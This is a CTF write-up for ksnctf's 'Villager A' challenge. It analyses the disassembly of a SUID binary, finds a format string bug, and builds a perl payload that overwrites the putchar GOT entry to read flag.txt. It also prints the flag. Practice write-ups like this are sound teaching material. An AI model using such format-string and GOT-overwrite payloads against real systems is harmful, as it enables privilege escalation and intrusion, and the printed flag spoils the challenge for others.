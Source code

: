 ```yaml
---
layout: post
title: ksnctf Villager A write-up
---
```


![placeholder](/image/vil_a.png "Large example image")
[ksnctf](http://ksnctf.sweetduet.info) is one of the beginner level CTF websites. This article is the write-up for the question 4 [Villager A](http://ksnctf.sweetduet.info/problem/4), in which you need to exploit the *Format String Vulnerability* to capture the flag!  

## Write-up
### __Connect__  
Using given information, access to the server `ssh -p 10022 q4@ctfq.sweetduet.info`  
In the server, you can find  

```
[q4@localhost ~]$ ls -al
total 36
drwxr-xr-x.  2 root root 4096 May 22  2012 .
drwxr-xr-x. 17 root root 4096 Oct  6  2014 ..
-rw-r--r--.  1 root root   18 Dec  2  2011 .bash_logout
-rw-r--r--.  1 root root  176 Dec  2  2011 .bash_profile
-rw-r--r--.  1 root root  124 Dec  2  2011 .bashrc
-r--------.  2 q4a  q4a    22 May 22  2012 flag.txt
-rwsr-xr-x.  1 q4a  q4a  5857 May 22  2012 q4
-rw-r--r--.  1 root root  151 Jun  1  2012 readme.txt
[q4@localhost ~]$ cat readme.txt 
You are not allowed to connect internet and write the home directory.
If you need temporary directory, use /tmp.
Sometimes this machine will be reset.
[q4@localhost ~]$ cat flag.txt
cat: flag.txt: Permission denied
[q4@localhost ~]$ ./q4 
What's your name?
sirius
Hi, sirius

Do you want the flag?
yes
Do you want the flag?
yes
Do you want the flag?
no
I see. Good bye.
```

### __Analyze__  
Since I don't have an access to read flag.txt, it seems that I need to somehow exploit q4 (SUID=root) to read the file. Let's disassemble main().  

```
...
0x080485e4 <+48>:	call   0x8048484 <fgets@plt>
0x080485e9 <+53>:	mov    DWORD PTR [esp],0x80487b6
0x080485f0 <+60>:	call   0x80484b4 <printf@plt>		<==
0x080485f5 <+65>:	lea    eax,[esp+0x18]
0x080485f9 <+69>:	mov    DWORD PTR [esp],eax
0x080485fc <+72>:	call   0x80484b4 <printf@plt>		<== FMT_VULN
0x08048601 <+77>:	mov    DWORD PTR [esp],0xa
0x08048608 <+84>:	call   0x8048474 <putchar@plt>		<==
0x0804860d <+89>:	mov    DWORD PTR [esp+0x418],0x1
0x08048618 <+100>:	jmp    0x8048681 <main+205>
0x0804861a <+102>:	mov    DWORD PTR [esp],0x80487bb
0x08048621 <+109>:	call   0x80484c4 <puts@plt>
...
```
```
(gdb) c
Continuing.
What's your name?

Breakpoint 2, 0x080485e4 in main ()
(gdb) nexti
hello
0x080485e9 in main ()
(gdb) x/s 0x80487b6
0x80487b6 <__dso_handle+22>:	 "Hi, "
(gdb) x/s $esp+0x18
0xbf9524d8:	 "hello\n"
```
It seems that at \<main+48\>, `fgets()` is called to get a string from stdin; at \<main+72\>, `printf()` is called to output the string. But, it's kind of weird that `printf()` was called at \<main+60\> to output "Hi, ", and after that, `putchar()` was called to output "\n" (0xa). Why are they called separately, instead of calling just one like `printf("Hi, %s\n", input);` as you probably more familiar to write. Now, I'm getting suspicious that there is a format string vulnerability in this program. (I mean, it's a CTF program)  
What if I input some kind of *format string* at \<main+48\>?  

```
[q4@localhost ~]$ ./q4
What's your name?
sirius%x%x%x
Hi, sirius400d604408

Do you want the flag?
```

It's now clear that there is a format string vulnerability at __<main+72>__. So, let's think about how to exploit it to read flag.txt.  
  
```
...
0x08048601 <+77>:	mov    DWORD PTR [esp],0xa
0x08048608 <+84>:	call   0x8048474 <putchar@plt>
0x0804860d <+89>:	mov    DWORD PTR [esp+0x418],0x1		<==
0x08048618 <+100>:	jmp    0x8048681 <main+205>
...
0x08048681 <+205>:	mov    eax,DWORD PTR [esp+0x418]		<==
0x08048688 <+212>:	test   eax,eax
0x0804868a <+214>:	setne  al
0x0804868d <+217>:	test   al,al
0x0804868f <+219>:	jne    0x804861a <main+102>				<==
0x08048691 <+221>:	mov    DWORD PTR [esp+0x4],0x80487e6
0x08048699 <+229>:	mov    DWORD PTR [esp],0x80487e8
0x080486a0 <+236>:	call   0x80484a4 <fopen@plt>
0x080486a5 <+241>:	mov    DWORD PTR [esp+0x41c],eax
0x080486ac <+248>:	mov    eax,DWORD PTR [esp+0x41c]
0x080486b3 <+255>:	mov    DWORD PTR [esp+0x8],eax
0x080486b7 <+259>:	mov    DWORD PTR [esp+0x4],0x400
0x080486bf <+267>:	lea    eax,[esp+0x18]
0x080486c3 <+271>:	mov    DWORD PTR [esp],eax
0x080486c6 <+274>:	call   0x8048484 <fgets@plt>
0x080486cb <+279>:	lea    eax,[esp+0x18]
0x080486cf <+283>:	mov    DWORD PTR [esp],eax
0x080486d2 <+286>:	call   0x80484b4 <printf@plt>
...(return)
```
Realize that 0x1 is moved into [esp+0x418] right before the jump to \<main+205\>. Then, 0x1 is brought back to eax, followed by `jne` at \<main+219\> -- if the value of eax is not 0 (or ZF = 0), it jumps to \<main+102\> that is a loop asking "Do you want the flag?", as shown below.  


```
...
0x0804861a <+102>:	mov    DWORD PTR [esp],0x80487bb
0x08048621 <+109>:	call   0x80484c4 <puts@plt>
0x08048626 <+114>:	mov    eax,ds:0x8049a04
0x0804862b <+119>:	mov    DWORD PTR [esp+0x8],eax
0x0804862f <+123>:	mov    DWORD PTR [esp+0x4],0x400
0x08048637 <+131>:	lea    eax,[esp+0x18]
0x0804863b <+135>:	mov    DWORD PTR [esp],eax
0x0804863e <+138>:	call   0x8048484 <fgets@plt>
0x08048643 <+143>:	test   eax,eax
0x08048645 <+145>:	sete   al
0x08048648 <+148>:	test   al,al
0x0804864a <+150>:	je     0x8048656 <main+162>
0x0804864c <+152>:	mov    eax,0x0
0x08048651 <+157>:	jmp    0x80486dc <main+296>
0x08048656 <+162>:	mov    DWORD PTR [esp+0x4],0x80487d1
0x0804865e <+170>:	lea    eax,[esp+0x18]
0x08048662 <+174>:	mov    DWORD PTR [esp],eax
0x08048665 <+177>:	call   0x80484e4 <strcmp@plt>
0x0804866a <+182>:	test   eax,eax
0x0804866c <+184>:	jne    0x8048681 <main+205>
0x0804866e <+186>:	mov    DWORD PTR [esp],0x80487d5
0x08048675 <+193>:	call   0x80484c4 <puts@plt>
0x0804867a <+198>:	mov    eax,0x0
0x0804867f <+203>:	jmp    0x80486dc <main+296>
...
```

On the other hand, if the jump was not taken, then it opens `flag.txt` and print it out (from \<main+212\> onwards)
One possibility to attack this program is by using format string attack to change the value of [esp+0x418] to 0 before `jne` at \<main+219\>, but it wouldn't work because `mov [esp+0x418], 0x1` happens after the string vulnerability. Moreover, ASLR (Address Space Layout Randomization) is enabled on this system, so guessing the stack address of [esp+0x418] is very hard.  
  

### __Exploitation__  
Remember that ASLR doesn't disable the randomization of memory address of code section. If I can somehow set `eip` to \<main+221\> (0x08048691), I should be able to read `flag.txt`.  
Right after the format string vulnerability, `putchar@plt` is called, using PLT. That means, if I modify the address referred at `putchar@plt` to \<main+221\>, I can modify `eip`!  
Let's examine.   

```
...
0x08048601 <+77>:	mov    DWORD PTR [esp],0xa
=> 0x08048608 <+84>:	call   0x8048474 <putchar@plt>
0x0804860d <+89>:	mov    DWORD PTR [esp+0x418],0x1
0x08048618 <+100>:	jmp    0x8048681 <main+205>
0x0804861a <+102>:	mov    DWORD PTR [esp],0x80487bb
0x08048621 <+109>:	call   0x80484c4 <puts@plt>
0x08048626 <+114>:	mov    eax,ds:0x8049a04
0x0804862b <+119>:	mov    DWORD PTR [esp+0x8],eax
0x0804862f <+123>:	mov    DWORD PTR [esp+0x4],0x400
(gdb) stepi
0x08048474 in putchar@plt ()
(gdb) disassemble 
Dump of assembler code for function putchar@plt:
=> 0x08048474 <+0>:	jmp    DWORD PTR ds:0x80499e0
0x0804847a <+6>:	push   0x8
0x0804847f <+11>:	jmp    0x8048454
End of assembler dump.
```

So, it seems that if I change the value stored at __0x80499e0__ to be __0x08048691__ (\<main+219\>), I can read flag.txt.  
  

```
[q4@localhost ~]$ ./q4
What's your name?
AAAA%x.%x.%x.%x.%x.%x.%x.%x.
Hi, AAAA400.cfa440.8.14.64dfc4.41414141.252e7825.78252e78.

Do you want the flag?
```
As examining the format vulnerability, it seems that the input string is stored at __6th place__ from the top of the stack.  


### __GETTING THE FLAG__
Now, we got all the informatin needed.  

+ modify the value at __0x80499e0__ to __0x8048691__  
+ offset is 6  

Some calculation  

```python
>>> 0x8691 - 8
34441
>>>0x10804 - 0x8691
33139
```

Thus, the exploit code is  

```
[q4@localhost ~]$ perl -e 'print "\xe0\x99\x04\x08\xe2\x99\x04\x08%34441x%6\$hn%33139x%7\$hn"'| ./q4
```

Then, the flag was: __FLAG\_nwW6eP503Q3QI0zw__
